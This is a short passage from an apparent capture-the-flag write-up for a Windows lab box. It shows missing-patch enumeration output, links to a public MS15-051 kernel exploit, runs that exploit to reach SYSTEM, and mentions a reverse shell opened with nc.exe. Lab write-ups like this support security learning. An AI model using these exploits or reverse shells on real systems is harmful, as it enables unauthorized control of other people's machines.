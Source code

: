 ```bash
No Instance(s) Available.
MS15-051 patch is NOT installed! (Vulns: 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)
No Instance(s) Available.
MS14-070 patch is NOT installed! (Vulns: 2K3/SP2-TCP/IP)
No Instance(s) Available.
MS13-005 patch is NOT installed! (Vulns: Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)
No Instance(s) Available.
MS13-053 patch is NOT installed! (Vulns: 7SP0/SP1_x86-schlamperei)
No Instance(s) Available.
MS13-081 patch is NOT installed! (Vulns: 7SP0/SP1_x86-track_popup_menu)
```

> [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

This one works perfectly

```bash
C:\Temp>.\ms15-051x64.exe "whoami"
.\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2472 created.
==============================
nt authority\system
```

I used the nc.exe and I got another reverse shell as system.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastard/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastard/Untitled%207.png)

We own the Box!